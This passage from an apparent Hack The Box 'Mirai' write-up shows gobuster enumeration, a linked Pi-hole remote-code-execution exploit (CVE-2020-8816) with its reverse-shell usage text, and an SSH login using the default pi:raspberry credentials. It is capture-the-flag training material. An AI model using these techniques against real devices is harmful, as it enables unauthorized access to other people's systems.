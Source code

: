 ```bash
===============================================================
2021/09/06 14:50:57 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
versions             (Status: 200) [Size: 13]                                                                                                          
===============================================================
2021/09/06 15:08:00 Finished
===============================================================
```

I visit the admin page, there is a control panel for a pi-hole. A possible exploit exists for this version if the path for www-data is the same as the following string: `/opt/pihole:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`.

You can find the exploit on Github:

[GitHub - AndreyRainchik/CVE-2020-8816: A Python script to exploit CVE-2020-8816, a remote code execution vulnerability on the Pi-hole](https://github.com/AndreyRainchik/CVE-2020-8816)

# Exploitation

---

I download the exploit and try to run it without any arguments. This will show me how to use the exploit script:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/mirai]
└─$ python3 exploit.py -h                    
usage: exploit.py [-h] url password ip port

Receive a reverse shell on a Pi-hole with access to the admin web console

positional arguments:
  url         The URL of the Pi-hole console
  password    The admin password for the Pi-hole console
  ip          The IP address for the reverse shell to connect to
  port        The port for the reverse shell to connect to

optional arguments:
  -h, --help  show this help message and exit
```

The script needs the administrator's password for the console as an additional parameter. So I search for the default credentials. The credentials are `pi:raspberry`. The exploit did not work so I just try the default username and password for SSH:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/mirai]
└─$ ssh pi@10.10.10.48              
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ECDSA) to the list of known hosts.
pi@10.10.10.48's password: *raspberry*

---snip---

pi@raspberrypi:~ $
```
